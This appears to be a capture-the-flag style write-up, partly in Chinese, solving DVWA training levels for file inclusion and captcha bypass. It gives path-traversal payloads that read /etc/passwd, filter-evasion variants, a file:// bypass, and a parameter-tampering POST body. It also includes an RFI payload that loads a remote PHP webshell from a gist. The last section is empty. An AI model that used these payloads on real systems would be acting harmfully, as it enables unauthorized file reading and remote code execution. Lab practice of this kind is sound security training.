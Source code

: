 

## File Inclusion
Refer - https://book.hacktricks.xyz/pentesting-web/file-inclusion
Refer - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion

### Low
Flag: `https://digidvwa.azurewebsites.net/vulnerabilities/fi/?page=../../hackable/flags/fi.php`
LFI: `?page=../../../../../../etc/passwd`
RFI: `?page=https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4/easy-simple-php-webshell.php`

### Medium
會取代`../`字串
Ipython內，將原payload內的`../`取代為`..././`
因`..././`被伺服器讀取會後轉為 -> `../`
![](https://i.imgur.com/odK2eUH.png)

**LFI:** `https://digidvwa.azurewebsites.net/vulnerabilities/fi/?page=..././..././hackable/flags/fi.php`
**Flag 2:** `https://digidvwa.azurewebsites.net/vulnerabilities/fi/?page=....//....//....//....//....//etc/passwd`
**RFI:**:
`https://digidvwa.azurewebsites.net/vulnerabilities/fi/?page=....//....//....//....//....//etc/passwd`
![](https://i.imgur.com/lixtpTY.png)

### High
* 會過濾掉非`file`開頭

透過RCE得知網站的跟目錄`/var/www/html`
![](https://i.imgur.com/2uBQP9E.png)
用`file:`協定指定路徑
**Payload:** `file:///var/www/html/hackable/flags/fi.php`
**Flag:** `https://digidvwa.azurewebsites.net/vulnerabilities/fi/?page=file:///var/www/html/hackable/flags/fi.php`

## Captcha Bypass
### Low
經測試後發現，成功驗證captcha後
POST到`/vulnerabilities/captcha/`的data: `step`為2
驗證失敗，`step`為1
intercept request把`step`改成2即可繞過驗證
![](https://i.imgur.com/mgRyMr7.png)


### Medium
成功後，會多出passed_captcha=true這個隱藏的input tag中，跟著request data一起傳出去，一樣只是前端驗證
所以只要把`step`改成`2`，加上`passed_captcha=true`
```c!
step=2&password_new=w&password_conf=w&g-recaptcha-response=&Change=Change&passed_captcha=true
```

### High

